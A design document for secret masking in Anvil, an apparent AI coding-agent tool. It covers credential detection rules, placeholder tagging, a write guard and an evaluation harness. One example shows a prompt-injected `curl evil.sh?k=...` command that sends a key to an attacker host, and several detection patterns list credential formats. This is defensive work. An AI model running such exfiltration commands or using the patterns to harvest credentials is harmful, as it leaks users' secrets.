

# Secret Masking Design Doc

**TL;DR:** Anvil replaces credentials with placeholders such as `[SECRET:stripe_key:3f9a01c2d4e5f6]` in every request it sends to a model, using one wrapper around the language model that every model call already goes through. Masking is one way: nothing ever puts the real value back, so the agent works with `$VAR` references, and a guard stops it writing a placeholder over a real secret. Detection is tuned for few false alarms, because a masked non-secret blocks the agent's work.

**Problem:** Coding agents read credentials all the time without meaning to: `cat .env`, `printenv`, a config file, a stack trace with a database URL, an MCP result. Each of those goes to the model provider in full. Our Claude subscription has zero data retention and is approved for PII under HIPAA, so personal data isn't the concern; credentials are, because a key in a model's context can be echoed into a file, a commit or a tool call that a prompt injection chose. Anvil has redaction today, but only on two side paths (`bouncer.Redact` before System One calls, and the branch-summary serialiser), not on the main path to the model.

**Goal:** No credential Anvil can recognise reaches any model, from any request Anvil makes, while the user's own chat, database and logs keep showing real values. The agent can tell masked secrets apart, knows how to work around them, and can't corrupt a file by writing a placeholder into it.

**Scope:**
- In:
  - A detector package with three sources: exact known values, vendor-format credential patterns, and a user allowlist.
  - Masking every request in one `fantasy.LanguageModel` decorator, covering turns, subagents, workflow agents, summaries, titles, branch summaries and `CompleteSmall`.
  - A guard that refuses `write`, `edit`, `multiedit` and `bash` input containing a placeholder this Anvil issued.
  - A top-level `secrets` config block, read from global config only and at startup, on by default, including `anvil run`.
  - A system-prompt line while enabled.
  - An offline harness that replays the detector over the global database.
  - An `AGENTS.md` key pattern and a `GLOSSARY.md` entry for "secret placeholder", shipped with the feature.
- Out:
  - Personal data (names, emails, addresses). The subscription covers it, and free-text PII detection is where false alarms and cost live.
  - Restoring real values into tool calls. Deferred; the placeholder format leaves room for it (see Decisions).
  - Masking the database, the TUI or logs. They're local, and the database already holds raw tool output today.
  - Image and PDF bytes. No OCR; the text alongside a media result is masked, the bytes go through as today.
  - Signed reasoning and provider-executed tool parts, which providers rebuild from opaque metadata (see Decisions).
  - A generic "any long encoded run" rule. It would mask commit SHAs, hashes and lockfile integrity strings throughout normal coding output.
  - UI notices (a drill-in count, a prompt-masked notice). Deferred to a follow-up: they need the detector's known values and key in the UI layer, plus caching per render, for information the user doesn't need to act on.
  - Changing `bouncer.Redact`. It serves a stricter boundary (an outside classifier) and works today; it keeps its own rules.
  - An ADR. A decorator that one option turns off is easy to reverse; `AGENTS.md` and this doc record it.

**Constraints:**
- Masking must be deterministic for a given value, key and known-value set, or every step changes the prompt prefix and breaks prompt caching (`step_usage` would show it).
- Detection runs on every request, so unchanged history must not be rescanned, and the cache must not hold a second copy of history in every instance (`AGENTS.md`, "Memory across instances").
- A repository must not be able to weaken masking. Masking stops accidental echoes of a credential; it doesn't stop an agent set on leaking one (splits and encodings get past exact matching), so recall isn't tuned against an adversary.
- `internal/secrets` sits in the bottom layer and imports nothing from `agent`, `app` or `ui` (depguard enforces it).
- New functions stay under the `gocognit` limit of 30, and every changed line needs tests that kill its mutants in CI.

**Design:**

Every model Anvil uses is built in `coordinator.buildResolvedAgentModels`, which wraps both models in `newRequestTimeoutModel`. A second decorator, `secretMaskModel`, wraps them outside that one, so scanning time never counts against the request timeout and masking doesn't depend on a timeout being set (`newRequestTimeoutModel` returns the model unchanged for a timeout of 0).



`internal/secrets` owns detection and has no knowledge of fantasy or Anvil's types:

```go
// New builds a detector from the allowlist and the tag key.
func New(allow []string, key []byte) *Detector
// AddKnown adds exact values to match; the set only grows.
func (d *Detector) AddKnown(known ...Known)
// Mask returns s with each finding replaced by its placeholder, and the findings.
func (d *Detector) Mask(s string) (string, []Finding)
// MaskJSON masks a tool call's JSON input so it stays valid JSON.
func (d *Detector) MaskJSON(input string) (string, bool)
// Issued reports the placeholders in s made with this key.
func (d *Detector) Issued(s string) []string
```

A finding has a kind (`aws_key`, `stripe_key`, `keyed_secret`, a known value's lowercased env name and so on), the rule that matched and its placeholder. The placeholder is `[SECRET:<kind>:<tag><check>]`: the tag is the first 8 hex characters of HMAC-SHA256 over the value, and the check is 6 hex characters of an HMAC over the kind and tag. The check makes placeholders self-verifying, so the guard needs no state and holds across restarts, instances and summaries. The allowlist filters findings from both sources:

1. **Known values.** These are provider API keys, OAuth tokens and credential headers, MCP credential headers, env, client secrets and stored tokens, the fetch and web-search keys, and process environment variables whose names end in `_KEY`, `_APIKEY`, `_TOKEN`, `_PAT`, `_SECRET`, `_PASSWORD`, `_PASSWD`, `_PASS`, `_PWD` or `_CREDENTIALS` (or are one of those words alone), except names marking public values (`PUBLIC`, `PUBLISHABLE`). A value counts only at 12 characters or more and only when it isn't a path (starting with `/`, `./`, `../`, `~/` or a drive letter, so an AWS secret key with `/` inside still counts), a number, a boolean or a URL. Each value is matched as written, JSON-escaped and URL-encoded. Nothing is removed in a process, so a rotated token stays masked wherever it is in history.
2. **Vendor patterns.** Credentials only, never identifiers: Stripe `sk_`/`rk_` (live and test) and `whsec_`, AWS access keys, GitHub, GitLab, npm and Hugging Face tokens, Anthropic and OpenAI keys (mixed case, so `sk-learn-...` slugs aren't), Slack tokens, GCP `AIza` keys, `ya29.` access and `1//0` refresh tokens, PEM private keys (only base64 lines, so prose after a BEGIN line is untouched) and JWTs (not ones signing a URL).
3. **Context rules** (generic; values that read as fixtures are skipped by `looksFake`):
   - passwords in URLs, only the password, unless it's a word (short or single case letters) or the host is a documentation stand-in;
   - `Bearer`/`Api-Key` followed by 20 or more token characters, any case;
   - keyed assignments: a name ending in `password`, `passwd`, `secret`, `secret_key`, `secret_access_key`, `token`, `api_key`/`apikey`, `access_key` or `private_key` (`-` or `_`), then `=`, `:` or `:=`. A quoted value counts anywhere when it looks generated and isn't a page cursor (`nextPageToken`). An unquoted value counts on a line of its own (allowing the line prefixes `view`, `grep`, `rg -n` and `cat -n` add, and a trailing `#` comment): as written on a `NAME=value` dotenv line, otherwise without dots or brackets. A dotenv `*_KEY` name (`APP_KEY`) counts when the value looks generated and the name isn't public.

`pk_` values are never masked by the context rules.

The allowlist (`secrets.allow`) holds exact values and `re:`-prefixed regexes that must match the whole value, for sample keys in fixtures and docs; a regex that doesn't compile fails config load.

`secretMaskModel` overrides all four request methods (`Generate`, `Stream`, `GenerateObject`, `StreamObject`) so a future caller can't skip masking through an embedded method. Each masks a copy of the call's prompt:
- text parts;
- tool-result text, error and media `Text`;
- tool-call input in history, through `MaskJSON`: each string is masked decoded (with `UseNumber`), then the re-encoded input (with `SetEscapeHTML(false)`, keys sorted) is masked again with the rules alone, so a key gives a value its context. No rule replaces text across a quote or backslash, so the input stays valid JSON.

It skips file bytes, reasoning parts, and any part with `ProviderExecuted` set. A part shape it doesn't know, or a panic in detection, fails the request rather than sending unmasked text.

`app.New` builds the one detector per process (`newSecretsDetector`) before the startup token refresh and `mcp.Initialize` start, and passes it to the coordinator, which hands it to every decorator and to the guard. It starts out knowing the environment and every credential the config and database already hold (`configuredSecrets`), since a resumed session's history is masked before any provider is built or MCP server connects; values that run a command (`$(...)` or backticks) are left for their first use. After that, credentials are learned as they're set: `ConfigStore.ObserveProviderCredentials` hears every login and refresh (`SetProviderAPIKey`, `applyToken`), `buildProvider` adds the resolved provider key, `resolveSecretOnce` the fetch and search keys, and the MCP package the credentials each server connects with and the tokens it loads, through a process-wide `mcp.SetSecretDetector`.

To avoid rescanning, the detector caches by a hash of the text and a domain (plain or JSON): a set of up to 50,000 hashes for parts with no findings, which is nearly all of them, and masked results up to 8 MB of text. Each cache restarts when full. Adding a new known value empties both, and a result computed while one was added is computed again, so nothing is masked with an outdated set. Adding a value already known keeps them, so a token refresh that returns a known value, or an MCP reconnect, keeps the caches.

Config is a top-level `secrets` block (`enabled`, `allow`) read from the user-level config files only, like `yolo` (`loadUserSettings`), and applied over the merged config on every load and reload, so a project `anvil.json` can't disable masking or add to the allowlist. Masking reads the startup snapshot (`ConfigStore.SecretsAtStartup`), so the decorator and the system-prompt line never disagree, and `RestartRequired` reports a change. There's no headless branch: masking stays on in `anvil run`. When it's off, the decorator and the guard are off too, and startup logs it.

The tag key is 32 random bytes in `secrets.key` beside the global database. `LoadKey` takes a file lock, reads the key, and if it's missing or malformed writes a new one to a temp file and renames it into place, so instances starting together agree on one key. If no key can be stored, the process uses one of its own and logs it. One key per install means a subagent, a resumed session and a restarted Anvil all produce the same placeholder for the same value, which keeps caches warm.

The guard wraps tools with the other per-turn wrappers in `internal/agent/turn.go` (the `stepTools` path, which subagent and workflow turns share), so it refuses before hooks or permission prompts run. When `Detector.Issued` finds a placeholder in `write`'s content, `edit`'s `old_string` or `new_string`, a `multiedit` edit, or `bash`'s command, the call returns a tool error without running; a path or description holding one passes. Placeholder-shaped text with a check this key didn't make (planted by fetched content, quoted in a doc) passes too. The error says why for that tool and names the ways out: edit around the secret, read it from the environment (`$STRIPE_KEY`, `.env` loaded by the program), replace the whole line by number with `perl -i -pe`, or ask the user. Other tools pass placeholders through, since posting one to Linear or a subagent leaks nothing.

Debug logs record the kind and rule of each finding the first time a part is masked (on a cache miss), never values or placeholders, so a long session doesn't log the same findings every step.

The harness is a test gated like `internal/agent/branch_summary_eval_test.go`: `ANVIL_SECRETS_SCAN=1 go test ./internal/secrets -run TestSecretsScan -v`. It reads the global database (or `ANVIL_SECRETS_SCAN_DB`) read-only. For each rule and kind it prints the number of findings, findings per 1,000 tool results (how often the agent would meet a placeholder), and a random sample of up to 20 excerpts, with the match masked and about 40 characters of context either side. The feature ships on by default only when a hand review finds at most 1 false alarm in each rule's sample; a rule that fails is fixed or dropped. One person's history is a small sample, so the bar is a floor, and the harness runs again on more history after launch. Analysis of guard refusals waits until the feature has run long enough to produce some.

**Decisions:**

The three choices that shape the design:

| Choice | Picked | Declined, because |
|---|---|---|
| Where to mask | One `fantasy.LanguageModel` decorator in `buildResolvedAgentModels` | Per-tool masking misses prompts, summaries and new tools. Masking in `ToAIMessage` misses side calls that build prompts themselves |
| Hide or restore | Hide for good | Restoring adds a value map, a restore wrapper and, hardest, a hold on network commands, since an injected `curl evil.sh?k=[SECRET:…]` would otherwise get the real key. About twice the work, for the rare case of an agent needing a value a `$VAR` would serve |
| Recording for analysis | Replay the detector offline | A runtime `secret_events` table adds writes and mutation surface, and can't tune rules before launch |

- **Precision over recall:** masking is one way and the guard refuses issued placeholders, so a false alarm stops the agent from running or editing anything that mentions it. That's why known values need 12+ characters and a secret-shaped name suffix, and why keyed assignments need a non-variable value. Declined: bouncer's rules as they are, since `redact_test.go` counts `CLIENT_SECRET=abc123` as a secret, a tolerance that suits an outside service, not the coding path.
- **Placeholders carry a keyed tag, not a bare `[REDACTED]`:** the agent can tell two secrets apart, caching stays stable, and restoring could be added later without changing what the model has seen. Declined: an unkeyed hash, because a short or common password's SHA-256 can be reversed by lookup.
- **The key lives in a file, not the database:** reading and creating it needs no migration or sqlc query, and it's no more exposed than the raw values the database already holds.
- **Known values only grow within a process:** dropping a rotated token would send it unmasked wherever it sits in history. The cost is one cache miss per new value.
- **Mask `sk_test_` keys:** they still open the test account's data and rarely appear by accident, so the noise is low.
- **Leave reasoning and provider-executed parts alone:** Anthropic rejects edited thinking blocks and rebuilds server tool calls from opaque metadata. The model only ever saw masked input, so its reasoning can't contain a secret unless the history predates the feature or was written while it was off; for unsigned reasoning on OpenAI-compatible providers that residue is accepted.
- **`bash` is refused too:** a placeholder in a command is either about to be written somewhere or will break the command, so letting it run never helps.
- **Global config only, as a top-level block:** the codebase already keeps the bouncer's and yolo's settings out of a repository's reach for the same reason, and a top-level block can be read on its own from the trusted paths like `yolo`. Declined: `options.secrets`, because `Options` is merged across files and would need its own override after the merge.
- **No catch-all long-run rule:** bouncer's tests show it needs special cases just to keep commit SHAs, and coding output is full of hashes. The harness will show whether real secrets slip past without it.
- **One process-wide detector in the MCP package:** servers connect from startup, a lazy first search and the palette, so a pointer set once at startup reaches every path. Declined: threading it through `Initialize` and `InitializeSingle`, which every caller and test would need to change for a value that is process-wide anyway. Tests that set it run serially.
- **The prompt line follows config, not the detector:** both come from `SecretsAtStartup`, so they agree in production; only tests that build a coordinator without a detector see the line without masking. Declined: deriving it from the detector, which would put the detector in the prompt builder for a test-only difference.
- **Caches restart when full instead of evicting one at a time:** simpler, and the bounds are rarely reached. A cache key hashes a copy of the text; avoiding the copy needs unsafe conversions for a cost that is small next to scanning.
- **The scan harness copies the database files:** opening the live database read-only would need driver-specific code, and a torn copy only affects a hand-run report.
- **Masked tool-call JSON is re-encoded with sorted keys:** deterministic, so caching settles after one miss. Replacing string spans in place would keep the model's key order at the cost of a token-level JSON rewriter.

**Risks and Tradeoffs:**
- The first scan of a long history is serial and costs about 0.3 µs a byte (a resumed multi-megabyte session waits seconds on its first request); later requests hit the cache. A new known value empties the cache, so the next request rescans.
- Recall gaps known at ship: a credential in an unquoted header (`curl -H "X-Api-Key: <hex>"`) unless Anvil knows the value, credentials in MCP stdio args, and a key in plain text right after a literal `\n` written in source code.
- Recognition is the ceiling: a credential with no known shape that Anvil wasn't given (a password in a teammate's script) goes through. If the harness finds many such misses, a narrowly scoped entropy rule for `KEY=value` contexts is the next step, not the catch-all.
- An agent that needs a real value now has to ask for it or use the environment. If sessions show guard refusals followed by the agent stalling or asking the user to paste keys, that's the signal to build restoring.
- A line holding a hardcoded key can't be changed with `edit`, since its `old_string` would hold a placeholder. Replacing a hardcoded key with an env var is a common task, so the guard's error names the line-addressed and ask-the-user ways out; if sessions show agents stuck on it, that's another signal for restoring.
- MCP tools that write files (GitHub's `create_or_update_file`) aren't guarded, so they can write a placeholder into a repository. Accepted for v1; the harness can count it.
- Turning it on re-masks existing sessions' history once, costing one cache miss each.

**Success Criteria:**
- [x] A session that runs `cat .env` with `STRIPE_SECRET_KEY=sk_live_…` and `STRIPE_CUSTOMER=cus_…` sends the model the key as `[SECRET:stripe_key:<tag>]` and the customer ID unchanged, observed in the request a fake provider receives during a full turn.
- [x] Every model `buildResolvedAgentModels` returns is wrapped by `secretMaskModel`, and all four request methods mask.
- [ ] The same value gets the same placeholder in a later step, a subagent, and after restarting Anvil, and `step_usage` shows cache reads on the second step. (Verified: same placeholder across steps and instances, and the masked prefix repeats byte for byte. Not checked: `step_usage` cache reads. `step_usage` fingerprints the history before masking, so a placeholder change, such as a new known value already in history, shows there as a provider-side miss.)
- [x] A tool call whose JSON input held a private key is sent back in history as valid JSON with the key masked.
- [x] An `AWS_SECRET_ACCESS_KEY` containing `/` is masked when the agent runs `printenv`, and so is `aws_secret_access_key = …` read from `~/.aws/credentials`.
- [x] `apiKey: process.env.API_KEY` and `token = request.headers.get("X")` in source code are not masked; `password: "hunter22hunter"` in YAML, `aws_secret_access_key = …` on its own line, and `Authorization: Bearer <opaque 32-character token>` are.
- [x] A header value of an MCP server that connects at startup is masked in the first request.
- [x] The value of `GITHUB_TOKEN` is masked when the agent runs `printenv`; `PGPASSWORD=postgres`, `max_tokens=4096`, `API_KEY=$API_KEY` and a `GOOGLE_APPLICATION_CREDENTIALS` path are not.
- [x] A prompt containing a pasted GitHub token reaches the model masked.
- [x] `write` with content containing an issued placeholder returns the guard's tool error and leaves the file untouched; so does an `edit` whose `old_string` holds one. A placeholder-shaped string Anvil never issued, and an issued one in an MCP call's input, go through.
- [x] An `edit` elsewhere in a file that contains a masked line still succeeds.
- [x] Commit SHAs, UUIDs, `go.sum` hashes, `pk_live_` keys and Stripe object IDs are never masked.
- [x] A value in the global `secrets.allow` is never masked; the same settings in a project `anvil.json` have no effect; global `secrets.enabled: false` sends requests unchanged, turns the guard off and drops the system-prompt line after a restart; masking stays on in `anvil run`.
- [ ] A subagent's first request reuses the parent's cached scans, and refreshing an OAuth token to a value already known doesn't clear the caches. (Verified: a known value added again keeps the caches. Not checked by a test: subagents share the coordinator's one detector by construction.)
- [x] `ANVIL_SECRETS_SCAN=1 go test ./internal/secrets -run TestSecretsScan -v` prints per-rule counts and samples for the local database without printing any matched value.

**Context Files:**
- `internal/agent/coordinator.go`: `buildResolvedAgentModels` is where both models are built and wrapped.
- `internal/agent/request_timeout.go`: precedent for a `fantasy.LanguageModel` decorator over `Generate` and `Stream`.
- `internal/agent/agent.go`: `preparePrompt` and the side calls show what a `fantasy.Call` prompt contains.
- `internal/app/app.go`: `New`, where the detector is created before the startup token refresh and `mcp.Initialize`.
- `internal/app/secrets.go` (`configuredSecrets`), `internal/config/store.go` (`SetProviderAPIKey`, `applyToken`), `internal/agent/coordinator_providers.go` (`buildProvider`), `internal/agent/tools/mcp/init.go` and `oauth.go`, `internal/agent/agentic_fetch_tool.go` (`resolveOnce`): where known values are resolved and must be added.
- `internal/agent/turn.go`: the per-turn tool wrappers (`timedTool`, `stepTools`) where the guard sits.
- `internal/bouncer/redact.go`, `internal/bouncer/redact_test.go`: rules to start from, and the looser tolerance not to copy.
- `internal/config/trusted.go`, `internal/config/secrets.go`: `loadUserSettings` and the `secrets` block, read from user-level config only like `yolo`.
- `internal/config/restart_required.go`: `RestartRequired`, which reports a changed `secrets` block.
- `internal/agent/templates/base.md.tpl`: the gated diagram line as the pattern for the prompt line.
- `internal/agent/branch_summary_eval_test.go`: precedent for an env-gated harness test.
- `.agents/skills/anvil-cache-triage/references/classify.sql`: how to confirm caching survived masking.
